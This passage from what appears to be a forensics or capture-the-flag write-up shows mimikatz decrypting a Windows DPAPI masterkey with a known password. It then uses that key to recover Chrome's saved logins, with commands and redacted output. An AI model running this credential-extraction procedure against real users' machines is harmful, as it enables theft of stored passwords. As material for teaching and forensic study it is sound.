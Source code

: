 Knowing the user's password, we can use `mimikatz`'s `dpapi::masterkey` module to decrypt the masterkey.

- `/in`: Path of the masterkey
- `/sid`: Security Identifier for the user; we can find it in the path for masterkey.
- `/password`: Password of the user.

```console
mimikatz # dpapi::masterkey /in:"AppData/Roaming/Microsoft/Protect/S-1-5-21-3854677062-280096443-3674533662-1001/8c6b6187-8eaa-48bd-be16-98212a441580" /sid:S-1-5-21-3854677062-280096443-3674533662-1001 /password:[REDACTED]
...
[masterkey] with password: [REDACTED] (normal user)
  key : ca43[REDACTED]9840
  sha1: 217522c457cfe8a95da45da81d6b898080e2067d

```
{: .wrap }

## Decrypting the passwords

Now that we have the decrypted masterkey, we can use it to decrypt the encrypted key and use that to decrypt the passwords. I will also use `mimikatz` for this.

First, extracting the encrypted key from `Local State`.

```console
$ cat AppData/Local/Google/Chrome/User\ Data/Local\ State | jq .os_crypt.encrypted_key -r
RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAACHYWuMqo69SL4WmCEqRBWAAAAAAAIAAAAAABBmAAAAAQAAIAAAAHPuV6P/8jN+rng8E61Z0xxi2hUf4Q4oxa5gFqSnctqdAAAAAA6AAAAAAgAAIAAAAAEF9lst8zMKmCFJ3WmD46TZY/xJF+s5Xf9mTQ2wa16ZMAAAABFU2C2V+l6K3y7ROKkA0cIaWyuXB9i7zUwBBu6mt7vM2QGZtqmjhcX6ZSWrX8JUwkAAAADgBkMLAP19Rtax5T8aKAESgwV+ABz65DOgEGwwSkkQMbWrwz7p42SzpfJUj7jcyUSTOblLRNtB8YTwhm3wCQSi
```
{: .wrap }

We can use the `dpapi::chrome` module in `mimikatz` to retrieve the saved passwords. The module accomplishes this by first decrypting the key used to encrypt the passwords using the user's masterkey. Then, uses the decrypted key to decrypt the passwords inside `Login Data`.

- `/in`: Path of the `Login Data` database file.
- `/masterkey`: Masterkey used to encrypt the key.
- `/encryptedKey`: Encrypted key from `Local State` that is used for encrypting the passwords.

```console
mimikatz # dpapi::chrome /in:"AppData/Local/Google/Chrome/User Data/Default/Login Data" /masterkey:ca43[REDACTED]9840 /encryptedKey:RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAACHYWuMqo69SL4WmCEqRBWAAAAAAAIAAAAAABBmAAAAAQAAIAAAAHPuV6P/8jN+rng8E61Z0xxi2hUf4Q4oxa5gFqSnctqdAAAAAA6AAAAAAgAAIAAAAAEF9lst8zMKmCFJ3WmD46TZY/xJF+s5Xf9mTQ2wa16ZMAAAABFU2C2V+l6K3y7ROKkA0cIaWyuXB9i7zUwBBu6mt7vM2QGZtqmjhcX6ZSWrX8JUwkAAAADgBkMLAP19Rtax5T8aKAESgwV+ABz65DOgEGwwSkkQMbWrwz7p42SzpfJUj7jcyUSTOblLRNtB8YTwhm3wCQSi
> Encrypted Key seems to be protected by DPAPI
 * masterkey     : ca43[REDACTED]9840
> AES Key is: 9a30[REDACTED]192c

URL     : https://[REDACTED]/ ( https://[REDACTED]/ )
Username: Administrator
 * using BCrypt with AES-256-GCM
Password: [REDACTED]

URL     : https://[REDACTED]/ ( https://[REDACTED]/ )
Username: chrome
 * using BCrypt with AES-256-GCM
Password: [REDACTED]
```
{: .wrap }
